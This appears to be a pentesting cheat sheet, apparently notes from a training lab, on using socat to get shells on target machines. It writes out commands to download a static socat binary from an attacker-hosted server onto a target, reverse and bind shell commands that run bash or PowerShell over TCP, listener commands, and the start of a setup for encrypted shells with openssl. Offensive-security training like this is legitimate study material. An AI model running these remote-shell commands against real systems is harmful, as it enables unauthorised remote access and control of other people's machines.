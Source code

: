 
get binary https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true

from simpler nc shell:
- upload socat binary to target machine (`python3 -m http.server 8000`)
- `wget 10.18.21.236/tools/socat` or `curl -O http://10.18.21.236/tools/socat` to dl to current dir

socat is used to connect two points together - for example your keyboard/screen and a remote ip+port

mostly useful on linux

---
## Shells

#### Reverse shell - Listener on our machine

listen on our machine: (can be used like `nc -lvnp <port>`, not just for socat connections)
`socat TCP-L:<port> -`

connect with windows target:
`socat TCP:<ip>:<port> EXEC:powershell.exe,pipes`
`pipes` forces use of unix style io

connect with linux target:
`socat TCP:<ip>:<port> EXEC:"bash -li"`

#### Bind shell - listener on target

listen on linux target:
`socat TCP-L:<port> EXEC:"bash -li"`

listen on windows target:
`socat TCP-L:<port> EXEC:powershell,pipes`
`pipes` forces use of unix style io

connect with our machine:
`socat TCP:<ip>:<port> -`

`-` means stdio, standard input output


### Debugging

You can add `-d -d` to a socat command to increase verbosity


## Encrypted shells

#### Create certificate

generate a certificate:
`openssl req --newkey rsa:2048 -nodes -keyout shell.key -x509 -days 362 -out shell.crt`
`req` request a certificate
`--newkey rsa:2048` generate a 2048 bit RSA key
`-nodes` save private key as plain text
`-keyout shell.key` key filename
`-x509` generate a self-signed cert
`-days 362` set cert validity
`-out shell.crt` cert filename

